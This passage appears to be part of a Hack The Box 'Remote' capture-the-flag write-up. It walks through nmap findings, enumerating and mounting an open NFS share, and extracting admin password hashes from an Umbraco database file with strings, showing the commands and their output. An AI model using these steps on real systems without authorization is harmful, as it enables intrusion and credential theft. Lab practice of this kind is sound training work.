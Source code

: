 The interesting findings here are:```21/ftp```, ```80/http```, ```2049/tcp```

FTP not only is vulnerable but ```NMAP``` is confirming ```Anonymous FTP login allowed```
HTTP port 80 is a website which requires further enumeration
NFS 2049 is interesting as it allows file sharing between Windows and non-Windows systems


Connecting to ```FTP``` does not bring any results, so let's enumerate ```2049/tcp``` which is NFS.

# NFS Enumeration

```bash
┌──(Kyd0s㉿kali)-[~/HTB/Remote]
└─$ showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)

```

Using ```showmount -e``` we can check what shares are available and we find ```site_backups```

```bash
┌──(Kyd0s㉿kali)-[~/HTB/Remote]
└─$ sudo mount -t nfs 10.10.10.180:/site_backups /mnt/
cd /mnt
ls
App_Browsers  App_Plugins    bin     css           Global.asax  scripts  Umbraco_Client  Web.config
App_Data      aspnet_client  Config  default.aspx  Media        Umbraco  Views

```
We find a few files, but the one we need to progress further is ```Umbraco.sdf``` in the ```App_Data``` folder, which contains some hashes.

```bash
┌──(Kyd0s㉿kali)-[/mnt]
└─$ cd App_Data
                                                                                                                            
┌──(Kyd0s㉿kali)-[/mnt/App_Data]
└─$ ls
cache  Logs  Models  packages  TEMP  umbraco.config  Umbraco.sdf
```

```bash 
┌──(Kyd0s㉿kali)-[/mnt/App_Data]
└─$ strings Umbraco.sdf                               
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d8******************{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d8******************{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
```
Not only we find an hash for the user ```adminadmin```, but we also know the kind, ```SHA1```
